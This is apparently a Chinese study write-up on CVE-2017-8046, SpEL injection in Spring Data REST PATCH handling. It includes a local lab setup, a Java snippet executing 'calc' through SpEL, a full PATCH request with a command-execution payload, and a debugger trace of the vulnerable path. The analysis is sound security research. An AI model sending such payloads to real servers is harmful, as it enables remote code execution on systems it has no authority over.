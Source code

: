 # CVE-2017-8046

> 今天来分析java spring框架中的SpEL表达式注入漏洞。
>
>因为没有学过Spring框架，和SpEL表达式，所以现在来简单的了解一下。

Pivotal官方发布通告表示Spring-data-rest服务器在处理PATCH请求时存在一个远程代码执行漏洞（CVE-2017-8046）。攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。官方已经发布了新版本修复了该漏洞。

受影响的版本

- Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
- Spring Boot version < 2.0.0M4
- Spring Data release trains < Kay-RC3

不受影响的版本

- Spring Data REST 2.5.12, 2.6.7, 3.0RC3
- Spring Boot 2.0.0.M4
- Spring Data release train Kay-RC3

## 提前知识

[Spring框架（一）简单介绍](https://blog.csdn.net/muyi_amen/article/details/53907386)

[Spring表达式语言SpEL](https://www.cnblogs.com/figsprite/p/10774345.html)

[Java代码审计之SpEL表达式注入](https://www.freebuf.com/vuls/197008.html)

而简单的说就是，SpEL可以调用方法及引用对象中的属性,从而可以执行命令

使用` T（Type）`来表示java.lang.Class实例，“ Type”必须是类全限定名，“ java.lang”包除外，即该包下的类可以不指定包名；

## 环境搭建

使用的项目为https://github.com/spring-guides/gs-accessing-data-rest.git里面的complete，直接用IDEA导入，并修改pom.xml中版本信息为漏洞版本。这里改为1.5.6。

![image-20210218140900669](CVE-2017-8046分析.assets/image-20210218140900669.png)

直接运行，默认端口8080，访问http://localhost:8080/

![image-20210218140952456](CVE-2017-8046分析.assets/image-20210218140952456.png)

## 测试环境

`在真实漏洞之前我们写一个SpELTest.java来演示一下SpEL注入漏洞`

```java
package EZvulhub;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpELTest {
    public static void main(String[] args) {
        String SpEL = "T(java.lang.Runtime).getRuntime().exec('calc')";
        //
        testSpEL(SpEL);
    }
    private static void testSpEL(String spEL){
        ExpressionParser parser = new SpelExpressionParser();
        Expression exp = parser.parseExpression(spEL);
        exp.getValue();
    }
}

```

![image-20210218141130874](CVE-2017-8046分析.assets/image-20210218141130874.png)

而上面就是通过去解析SpEL表达式形成的命令执行。

## 漏洞复现

我们去用POST请求新建一个people，请求如下

```http
POST /people HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 32

{"firstName":"l","lastName":"l"}
```

![image-20210218142324101](CVE-2017-8046分析.assets/image-20210218142324101.png)

成功创建一个people对象，然后通过GET请求可以访问对象。

![image-20210218142345087](CVE-2017-8046分析.assets/image-20210218142345087.png)

下一步就是利用漏洞

需要用PATCH方法，而且请求格式为JSON。根据RFC 6902，发送JSON文档结构需要注意以下两点：

1、请求头为Content-Type: application/json-patch+json

2、需要参数op、路径path，其中op所支持的方法很多，如test，add，replace等，path参数则必须使用斜杠分割

这样我们就可以构造payload了

```http
PATCH /people/1 HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type:application/json-patch+json
Upgrade-Insecure-Requests: 1
Content-Length: 124

[{ "op": "add", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99,97,108,99}))/lastName" }]
```

![image-20210218142403072](CVE-2017-8046分析.assets/image-20210218142403072.png)

## 漏洞分析

程序入口：`org.springframework.data.rest.webmvc.config.JsonPatchHandler:apply()`中

![image-20210218154218728](CVE-2017-8046分析.assets/image-20210218154218728.png)

`第一部分是通过断言的方法来判断请求的方法是不是Patch`如果是我们就进入`applyPatch()`方法

![image-20210218154242121](CVE-2017-8046分析.assets/image-20210218154242121.png)

然后在跟进`getPatchOperations`方法

![image-20210218154309595](CVE-2017-8046分析.assets/image-20210218154309595.png)

创建了一个对象并且调用`convert()方法`，跟进这个方法。

该方法最后返回一个`new Patch(ops)`

![image-20210218154343073](CVE-2017-8046分析.assets/image-20210218154343073.png)

在跟进入`Patch`里面是一个List类型的`PatchOperation`

![image-20210218144455906](CVE-2017-8046分析.assets/image-20210218144455906.png)

然后我们在跟进`PatchOperation`

![image-20210218154922515](CVE-2017-8046分析.assets/image-20210218154922515.png)

发现是使用了SpEL表达式，我们在跟进` pathToExpression`

![image-20210218155012734](CVE-2017-8046分析.assets/image-20210218155012734.png)

可以看到这是一个SPEL表达式解析操作，但是在解析之前调用了pathToSpEL()。进入到`pathToSpEL()`中

![image-20210218155904249](CVE-2017-8046分析.assets/image-20210218155904249.png)

重新回到`org.springframework.data.rest.webmvc.config.JsonPatchHandler:applyPatch()`中

![image-20210218155949892](CVE-2017-8046分析.assets/image-20210218155949892.png)

然后调用`apply`方法

![image-20210218160152994](CVE-2017-8046分析.assets/image-20210218160152994.png)

跟进`perform`方法。

![image-20210218160229390](CVE-2017-8046分析.assets/image-20210218160229390.png)

发现是一个抽象方法。看看他的实现。

![image-20210218160352066](CVE-2017-8046分析.assets/image-20210218160352066.png)

实际上PatchOperation是一个抽象类，实际上应该调用其实现类的perform()方法。通过动态调试分析，此时的operation实际是ReplaceOperation类的实例(这也和我们传入的replace操作是对应的)
。进入到`ReplaceOperation:perform()`中，

![image-20210218160527668](CVE-2017-8046分析.assets/image-20210218160527668.png)

在去看看`setValueOnTarget()`方法。在`setValueOnTarget()`中会调用spelExpression对spel表示式进行解析，从而触发漏洞。

![image-20210218160715149](CVE-2017-8046分析.assets/image-20210218160715149.png)

## 参考

> https://www.cnblogs.com/co10rway/p/9380441.html
>
>https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA
>
>https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046
>
>http://xxlegend.com/2017/09/29/Spring%20Data%20Rest%E6%9C%8D%E5%8A%A1%E5%99%A8PATCH%E8%AF%B7%E6%B1%82%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2017-8046%E8%A1%A5%E5%85%85%E5%88%86%E6%9E%90/